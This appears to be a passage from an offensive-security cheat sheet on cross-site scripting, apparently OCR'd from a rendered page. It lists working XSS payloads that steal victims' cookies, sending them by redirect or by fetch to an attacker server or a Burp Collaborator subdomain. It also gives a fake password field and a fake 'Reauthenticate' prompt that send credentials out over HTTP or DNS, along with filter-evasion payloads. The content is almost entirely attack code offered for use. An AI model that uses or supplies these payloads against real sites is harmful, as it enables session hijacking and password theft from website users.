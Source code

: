   

## 2.4	EXFILTRATING A VICTIM'S COOKIES

### 2.4.1	WEBSERVER REDIRECTION

`$ python -m http.server 80`

`<script>window.location.replace("http://10.102.4.49/"+document.cookie)</script>`         //NOT STEALTHY!!!

### 2.4.2	BURPSUITE COLLABORATOR CLIENT

- Create Burp Collaborator link

#### 2.4.2.1	SIMPLE

`<script>window.location.replace("http://<BURP-COLLABORATOR-SUBDOMAIN>/"+document.cookie)</script>`

#### 2.4.2.2	ELEGANT

`<script>fetch('https://<BURP-COLLABORATOR-SUBDOMAIN>', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>`

## 2.5	EXFILTRATING PASSWORD

### 2.5.1	BURPSUITE COLLABORATOR CLIENT

#### 2.5.1.1	-

`<input name=username id=username>`

`<input type=password name=password onchange="if(this.value.length)fetch('https://<BURP-COLLABORATOR-SUBDOMAIN>',{method:'POST',mode: 'no-cors',body:username.value+':'+this.value});">`

### 2.5.2	PRAETORIAN DNS

`<h1>Reauthenticate:</h1><input type=password onchange="fetch('http://'+this.value+'.dns.praetorianlabs.com')" placeholder="password">`

## 2.6	FILTER EVASION

- Full list at https://kalilinuxtutorials.com/xss-payload-list/

### 2.6.1	-

`<BODY ONLOAD=alert('XSS')>`

### 2.6.2	IF CARETS ENCODED [26]

#### 2.6.2.1	-

`"onpageshow="alert(1)`
